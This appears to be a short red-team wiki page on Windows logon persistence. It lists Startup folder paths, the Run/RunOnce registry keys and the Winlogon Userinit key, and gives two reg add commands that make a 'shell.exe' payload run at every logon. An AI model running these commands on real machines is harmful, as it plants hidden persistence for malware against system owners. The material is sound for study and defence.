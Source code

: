# Logon Triggered Persistence 

## Theory
It's sometime usefull to know how to plant payloads that will get executed when a user logs into the system.

{% tabs %}

{% tab title="Startup Folders" %}
We can put executable in each user's folder:  
- `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`  
  
If we want to force all users to run a payload while logging in, we can use the folder under:  
- `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`  
{% endtab %}

{% tab title="Registry" %}
You can also force a user to execute a program on logon via the registry. You can use the following registry entries to specify applications to run at logon:
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`  
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`  
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`  
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`  
  
For example:
```bash
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v PeMalware /t REG_SZ /d "C:\Users\user1\shell.exe"
```


{% hint style="success" %}
Registry entries under `HKCU` will only apply to the current user.  
Registry entries under `HKLM` will apply to everyone.
{% endhint %}
{% endtab %}

{% tab title="WinLogon" %}
Winlogon, the Windows component that loads your user profile right after authentication can be abuse for persistence  
We can edit the `Shell` & `Userinit` keys:  

{% hint style="danger" %}
If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.
{% endhint %}
  
```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\System32\Userinit.exe, C:\Windows\shell.exe" /f
```



{% endtab %}
{% endtabs %}
